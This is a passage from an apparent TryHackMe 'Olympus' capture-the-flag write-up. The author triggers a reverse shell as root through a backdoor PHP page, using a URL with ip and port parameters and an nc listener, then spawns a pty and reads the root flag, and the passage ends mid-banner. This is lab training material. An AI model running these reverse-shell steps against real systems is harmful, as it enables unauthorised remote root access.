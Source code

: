 Enter the password given from the **.php** file and get access:

![Untitled](/assets/Olympus%20images/Untitled%207.png)

Following the **Usage** instruction, I enter the append the URL with 2 params as **ip** and **port** to establish another reverse shell as **root**:

```
10.10.65.49/[REDACTED]/[REDACTED].php?ip=10.9.63.75&port=4445
```

```
┌──(kali㉿kali)-[~/TryHackMe/olympus]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.65.49] 49406
Linux olympus 5.4.0-109-generic #123-Ubuntu SMP Fri Apr 8 09:10:54 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 08:17:34 up 30 min,  1 user,  load average: 0.00, 0.02, 0.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
zeus     pts/1    10.9.63.75       07:58    8:30   0.08s  0.08s -bash
python3 -c "import pty;pty.spawn('/bin/bash')"
root@olympus:/# whoami;id;pwd
whoami;id;pwd
root
uid=0(root) gid=0(root) groups=0(root),33(www-data),7777(web)
/
```

Then move into the `/root/` directory and get the root flag:

```
root@olympus:/# cd /root
cd /root
root@olympus:/root# ls -l
ls -l
total 12
drwxr-xr-x 3 root root 4096 Mar 22  2022 config
-rw-r--r-- 1 root root 1576 Apr 18  2022 root.flag
drwx------ 3 root root 4096 Mar 22  2022 snap
```

```
root@olympus:/root# cat root.flag
cat root.flag
                    ### Congrats !! ###

                            (
                .            )        )
                         (  (|              .
                     )   )\/ ( ( (
             *  (   ((  /     ))\))  (  )    )
           (     \   )\(          |  ))( )  (|
           >)     ))/   |          )/  \((  ) \
           (     (      .        -.     V )/   )(    (
            \   /     .   \            .       \))   ))
              )(      (  | |   )            .    (  /
             )(    ,'))     \ /          \( `.    )
```